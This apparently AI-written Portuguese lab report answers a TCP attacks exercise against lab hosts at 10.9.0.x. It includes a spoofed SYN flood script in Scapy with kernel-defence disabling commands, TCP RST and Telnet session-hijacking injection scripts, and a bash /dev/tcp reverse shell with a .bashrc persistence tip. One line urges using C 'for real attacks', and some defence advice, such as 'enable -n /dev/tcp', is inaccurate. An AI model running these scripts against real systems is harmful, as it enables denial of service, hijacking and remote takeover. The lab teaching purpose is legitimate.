

Aqui está o conteúdo completo formatado em **Markdown** para você copiar e colocar diretamente no GitHub:

---

# **Tarefa 1 - Ataque SYN Flood com Python**

## **1. Modificações no Código `tarefa1.py`**
```python
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

# Configurações do ataque
ip = IP(dst="10.9.0.5")      # IP da vítima (substitua pelo IP correto)
tcp = TCP(dport=23, flags='S') # Porta 23 (Telnet)
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32)))  # IP de origem aleatório
    pkt[TCP].sport = getrandbits(16)                # Porta de origem aleatória
    pkt[TCP].seq = getrandbits(32)                  # Número de sequência aleatório
    send(pkt, verbose=0)
```

### **O que o código faz?**
- Gera pacotes TCP SYN falsos com:
  - **IPs de origem aleatórios** (para burlar filtros).
  - **Portas de origem aleatórias**.
  - **Números de sequência aleatórios**.
- Alvo: Servidor Telnet da vítima (`porta 23`).

---

## **2. Passos para Execução do Ataque**

### **Pré-requisitos**
```bash
# Instalar Scapy (Python)
sudo apt update
sudo apt install python3-scapy

# Configurar o kernel (desativar defesas)
sudo sysctl -w net.ipv4.tcp_syncookies=0       # Desliga SYN Cookies
sudo sysctl -w net.ipv4.tcp_max_syn_backlog=80 # Reduz fila SYN
sudo ip tcp_metrics flush                       # Limpa conexões antigas
```

### **Executar o Ataque**
```bash
# Iniciar múltiplas instâncias (aumenta eficácia)
for i in {1..10}; do python3 tarefa1.py & done

# Parar o ataque (kill todos os processos Python)
pkill -f "python3 tarefa1.py"
```

---

## **3. Perguntas e Respostas**

### **1. O ataque funcionou na primeira tentativa?**
**Não**, devido aos mecanismos de proteção do Ubuntu:
- **SYN Cookies** (ativado por padrão) → Desative com `sysctl -w net.ipv4.tcp_syncookies=0`.
- **Fila de conexões prioriza IPs conhecidos** → Limpe com `ip tcp_metrics flush`.
- **Fila SYN muito grande** → Reduza com `sysctl -w net.ipv4.tcp_max_syn_backlog=80`.

### **2. Como o SYN Cookies funciona?**
- **Quando ativado**:
  - O servidor **não armazena** conexões semiabertas (`SYN_RECV`).
  - Envia um **cookie** (hash do IP/porta/seq) no SYN+ACK.
  - Reconstrói a conexão apenas se o cliente responder com o cookie válido.
- **Objetivo**: Mitigar ataques de inundação SYN sem consumir recursos.

### **3. Mecanismo do Ubuntu sem SYN Cookies**
- **25% da fila SYN** é reservada para IPs que já se conectaram antes.
- **Comando para verificar**:
  ```bash
  ip tcp_metrics show  # Lista IPs "conhecidos"
  ip tcp_metrics flush # Limpa a lista
  ```
- **Impacto no ataque**: IPs aleatórios só ocupam **75% da fila**.

---

## **4. Comandos Úteis para Depuração**
| Comando | Descrição |
|---------|-----------|
| `netstat -tna \| grep SYN_RECV \| wc -l` | Conta conexões semiabertas |
| `ss -n state syn-recv sport = 23 \| wc -l` | Conexões SYN_RECV na porta 23 |
| `sysctl net.ipv4.tcp_synack_retries` | Número de retransmissões SYN+ACK |
| `sudo tcpdump -i eth0 'tcp port 23'` | Monitora pacotes Telnet em tempo real |

---


---

**Nota**: Substitua `10.9.0.5` pelo IP real da vítima.  
**Dica**: Use `&` para rodar o script em segundo plano (ex: `python3 tarefa1.py &`).

Aqui está a resposta formatada em **Markdown** para a pergunta da Tarefa 2:

---

# **Tarefa 2 - Ataque SYN Flood em C**

## **Análise do Código `tarefa2.c`**

O código implementa um ataque SYN Flood usando sockets brutos (raw sockets) em C, permitindo maior controle e eficiência no envio de pacotes TCP SYN falsos.

---

## **4. Vantagem do Programa C sobre o Python**

### **Resposta:**
O programa em **C** possui vantagens significativas em relação ao Python para ataques SYN Flood:

✅ **Desempenho Superior**:  
- Envia pacotes **10-100x mais rápido** que Python (Scapy).  
- Evita overhead de interpretação e camadas de abstração.  

✅ **Controle de Baixo Nível**:  
- Manipulação direta de headers IP/TCP via structs.  
- Uso de **raw sockets** (envio direto pelo kernel).  

✅ **Otimização de Recursos**:  
- Alocação manual de memória (sem garbage collector).  
- Cálculo eficiente de checksums em código nativo.  

---

### **Comparação Prática**

| **Python (Scapy)** | **C (Raw Sockets)** |
|--------------------|---------------------|
| ≈ 1.000-10.000 pps | ≈ 100.000+ pps |
| Alto overhead (interpretado) | Código compilado nativo |
| Requer root (`sudo`) | Requer root (`sudo`) |
| Fácil prototipagem | Controle granular |

---

## **Como o Código Funciona**

1. **Estruturas de Dados**:
   - `struct ipheader`: Define o header IP (versão, TTL, etc.).
   - `struct tcpheader`: Define o header TCP (portas, flags SYN/ACK).

2. **Geração de Pacotes**:
   ```c
   tcp->tcp_sport = rand(); // Porta origem aleatória
   tcp->tcp_dport = htons(DEST_PORT); // Porta destino (ex: 23)
   tcp->tcp_flags = TH_SYN; // Flag SYN ativada
   ip->iph_sourceip.s_addr = rand(); // IP origem aleatório
   ```

3. **Envio Eficiente**:
   - `send_raw_ip_packet()` envia pacotes brutos via socket raw.

4. **Checksum TCP**:
   - `calculate_tcp_checksum()` calcula o checksum corretamente (crítico para pacotes válidos).

---

## **Compilação e Execução**
```bash
# Compilar
gcc -o tarefa2 tarefa2.c

# Executar (como root)
sudo ./tarefa2 <IP_VÍTIMA> <PORTA>  # Ex: sudo ./tarefa2 10.9.0.5 23
```

---

## **Por Que C é Mais Eficaz?**
1. **Velocidade**:  
   - Python processa pacotes em camadas altas (Scapy).  
   - C envia diretamente pelo kernel via `sendto()`.  

2. **Controle de Pacotes**:  
   - Em C, os headers IP/TCP são manipulados bit a bit.  
   - Exemplo:  
     ```c
     tcp->tcp_flags = TH_SYN; // Flags TCP precisas
     ip->iph_ttl = 50; // TTL personalizado
     ```

3. **Saturação da Fila SYN**:  
   - O ataque em C pode saturar a fila mesmo com configurações padrão do kernel (`net.ipv4.tcp_max_syn_backlog=256`).

---

## **Exemplo de Saída**
```
[+] Enviando SYN para 10.9.0.5:23 com IP origem 192.168.1.100:54321
[+] Enviando SYN para 10.9.0.5:23 com IP origem 10.0.0.5:12345
...
```

---

## **Conclusão**
Use **C para ataques reais** onde performance é crítica. Python é adequado para testes rápidos, mas não para inundação de alta escala.

**Dica**: Para maximizar o ataque:
- Execute múltiplas instâncias em paralelo.
- Desative mitigações do kernel (`sysctl -w net.ipv4.tcp_syncookies=0`).


# **Tarefa 3 - Ataque RST ao TCP**

## **Respostas às Perguntas**

### **5. Modificações no arquivo `tarefa3.py`**

O arquivo foi modificado para enviar um pacote TCP com flag RST, interrompendo uma conexão Telnet existente. As alterações incluíram:

```python
#!/usr/bin/env python3
from scapy.all import *

# Configurações obtidas via Wireshark
ip = IP(src="10.9.0.6", dst="10.9.0.5")       # IPs da vítima e atacante
tcp = TCP(sport=44444, dport=23,              # Portas da conexão Telnet
          flags="R", seq=123456789)           # Flag RST + número de sequência correto
pkt = ip/tcp

send(pkt, verbose=0)
```

#### **Campos ajustados**:
| Campo         | Valor Exemplo  | Onde Obter |
|---------------|----------------|------------|
| `src`         | `10.9.0.6`     | IP do atacante (spoofing opcional) |
| `dst`         | `10.9.0.5`     | IP da vítima |
| `sport`       | `44444`        | Porta origem (usada na conexão Telnet) |
| `dport`       | `23`           | Porta destino (Telnet) |
| `flags`       | `"R"`          | Flag RST para resetar conexão |
| `seq`         | `123456789`    | Número de sequência capturado no Wireshark |

---

### **6. Sobre a Flag RST**

#### **O que é?**
A flag **RST (Reset)** é um mecanismo do TCP para:
- **Abortar conexões** imediatamente.
- **Sincronizar estados** entre hosts quando há inconsistências (ex: conexão perdida).

#### **Exemplo de Uso Não Malicioso**:
Quando um servidor recebe uma conexão em uma porta fechada, ele responde com:
- **SYN+ACK** se a porta estiver aberta.
- **RST** se a porta estiver fechada (sinalizando que a conexão é inválida).

#### **Detalhes Técnicos**:
- **Packet Drop**: Se o RST for enviado com `seq` incorreto, é ignorado.
- **Uso Legítimo**:  
  ```bash
  telnet 10.9.0.5 80  # Porta 80 fechada → Servidor envia RST
  ```

---

## **Passos para o Ataque RST**

1. **Iniciar Conexão Telnet**:
   ```bash
   telnet 10.9.0.5
   ```

2. **Capturar Dados no Wireshark**:
   - Filtrar por `tcp.port == 23`.
   - Anotar: `IP.src`, `IP.dst`, `TCP.sport`, `TCP.seq`.

3. **Executar Ataque**:
   ```bash
   python3 tarefa3.py
   ```

4. **Verificar Resultado**:
   - A sessão Telnet é abruptamente encerrada.
   - Na vítima:  
     ```bash
     netstat -tulpn | grep 23  # Conexão desaparece
     ```

---

## **Impacto do Ataque**
- **Interrupção Instantânea**: Encerra conexões sem `FIN`/`ACK` (indetectável para usuários).
- **Defesa**: Sistemas modernos usam:
  - **Seq Numbers Aleatórios** (dificulta adivinhação).
  - **Firewalls** (bloqueiam RST spoofados).

---

# **Tarefa 4 - Sequestro de Sessão Telnet**

## **Respostas às Perguntas**

### **7. Modificações no arquivo `tarefa4.py`**

O arquivo foi adaptado para injetar comandos maliciosos em uma sessão Telnet ativa:

```python
#!/usr/bin/env python3
from scapy.all import *

# Dados obtidos via Wireshark
ip = IP(src="10.9.0.6", dst="10.9.0.5")       # IPs da vítima e atacante (spoofing)
tcp = TCP(sport=44444, dport=23,              # Portas da conexão
          flags="A",                          # Flag ACK para injeção
          seq=123456789, ack=987654321)       # Números de sequência/ACK
data = "echo 'Ataque com sucesso!' > /ataque.txt\r\n"  # Comando malicioso

pkt = ip/tcp/data
send(pkt, verbose=0)
```

#### **Campos ajustados**:
| Campo         | Valor Exemplo               | Onde Obter |
|---------------|-----------------------------|------------|
| `src`/`dst`   | `10.9.0.6` / `10.9.0.5`    | Wireshark (filter: `tcp.port == 23`) |
| `sport`/`dport` | `44444` / `23`            | Conexão Telnet ativa |
| `flags`       | `"A"`                       | Flag ACK para injetar dados |
| `seq`/`ack`   | `123456789` / `987654321`   | Últimos valores da sessão |
| `data`        | `echo ... \r\n`             | Comando + `\r` (Telnet requer quebra de linha) |

---

### **8. Informações Obtidas no Wireshark**
Para o ataque funcionar, foram necessários:
1. **Endereços IP** (`src`/`dst`):  
   - Identificados nos pacotes da sessão Telnet.

2. **Portas TCP** (`sport`/`dport`):  
   - Porta origem do cliente (ex: `44444`) e destino (`23`).

3. **Números de Sequência/ACK** (`seq`/`ack`):  
   - Últimos valores válidos da sessão (garantem que o pacote seja aceito).

4. **Flag `ACK`**:  
   - Indica que o pacote contém dados para a sessão existente.

---

### **9. Diferença entre `pkt = ip/tcp` (Tarefa 3) e `pkt = ip/tcp/data` (Tarefa 4)**
| **Tarefa 3 (RST)**               | **Tarefa 4 (Sequestro)**          |
|----------------------------------|-----------------------------------|
| Objetivo: Encerrar conexão.      | Objetivo: Injetar dados.          |
| Pacote simples (sem payload).    | Pacote com payload (`data`).      |
| Flag `RST` (reset).              | Flag `ACK` (dados na sessão).     |
| `seq` aleatório (se spoofing).   | `seq`/`ack` exatos da sessão.     |

#### **Exemplo Prático**:
- **Tarefa 3**:  
  ```python
  pkt = ip/tcp  # Sem dados, apenas flag RST
  ```
- **Tarefa 4**:  
  ```python
  pkt = ip/tcp/data  # Comando injetado como payload
  ```

---

## **Como o Ataque Funciona?**
1. **Monitoramento**:  
   - Wireshark captura `seq`/`ack` da sessão Telnet.

2. **Injeção**:  
   - O atacante envia um pacote `ACK` com `data` maliciosa, aproveitando os números de sequência corretos.

3. **Execução**:  
   - A vítima processa o comando como se fosse legítimo (ex: cria `/ataque.txt`).

---

## **Verificação do Ataque**
```bash
# Na vítima:
ls / | grep ataque.txt  # Arquivo deve existir
cat /ataque.txt        # Exibe "Ataque com sucesso!"
```

---

## **Proteções Contra o Ataque**
- **Seq Numbers Aleatórios**: Dificulta adivinhar `seq`/`ack`.  
- **Criptografia (SSH)**: Substitui Telnet, evitando injeção.  
- **Firewalls**: Bloqueiam pacotes spoofados.  

---
# **Tarefa 5 - Shell Reversa com Netcat (Backdoor)**

## **Respostas às Perguntas**

### **10. Passo a Passo do Ataque**

1. **Preparação do Atacante**:
   - Abre um listener na porta `9090` para receber a conexão reversa:
     ```bash
     nc -lnv 9090  # -l: listen, -n: no DNS, -v: verbose
     ```

2. **Injeção do Comando na Vítima**:
   - Usa `tarefa4.py` modificado para injetar o comando de shell reversa:
     ```python
     data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r\n"
     ```
   - **Detalhes do comando**:
     - `/bin/bash -i`: Inicia uma shell interativa.
     - `> /dev/tcp/10.9.0.1/9090`: Redireciona a saída padrão (stdout) para a rede.
     - `0<&1`: Redireciona a entrada padrão (stdin) da conexão TCP.
     - `2>&1`: Redireciona erros (stderr) para a mesma conexão.

3. **Estabelecimento da Conexão**:
   - A vítima conecta-se ao atacante via `/dev/tcp` (funcionalidade do Bash).
   - O atacante recebe um shell interativo da vítima:
     ```bash
     # Terminal do atacante após conexão:
     bash$ whoami  # Comandos executados na vítima
     seed
     ```

4. **Persistência (Opcional)**:
   - Para manter acesso, o comando pode ser adicionado a:
     ```bash
     echo "comando" >> ~/.bashrc  # Executa ao logar
     ```

---

### **11. Explicação do Comando `nc -lnv 9090`**

| Parâmetro | Função |
|-----------|--------|
| `-l`      | Modo **listen** (aguarda conexões). |
| `-n`      | Evita resolução de DNS (apenas IPs). |
| `-v`      | Modo **verbose** (mostra detalhes da conexão). |
| `9090`    | Porta TCP onde o netcat escuta. |

#### **O que acontece?**
- O atacante fica em estado de **espera** até que a vítima se conecte.
- Quando a vítima executa o comando de shell reversa, o netcat:
  - Aceita a conexão.
  - Redireciona entrada/saída para o terminal do atacante.

#### **Exemplo de Saída**:
```bash
Listening on 0.0.0.0 9090
Connection received from 10.9.0.5 43218  # Conexão estabelecida
bash$   # Prompt da vítima
```

---

## **Detalhes Técnicos do Ataque**

### **Fluxo de Dados**


### **Por Que Funciona?**
- **`/dev/tcp`**: Feature do Bash que permite conexões TCP como arquivos.
- **Redirecionamentos**:
  - `0<&1`: STDIN ← TCP.
  - `2>&1`: STDERR → TCP (mesmo canal de STDOUT).

### **Proteções Contra o Ataque**
1. **Desabilitar `/dev/tcp`**:
   ```bash
   # No bashrc da vítima:
   enable -n /dev/tcp
   ```
2. **Firewalls**:
   ```bash
   iptables -A OUTPUT -p tcp --dport 9090 -j DROP  # Bloqueia conexões de saída
   ```
3. **Substituir Telnet por SSH** (criptografia previne injeção).

---

## **Referências**
- [Netcat Cheatsheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)
- [Bash /dev/tcp](https://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip)
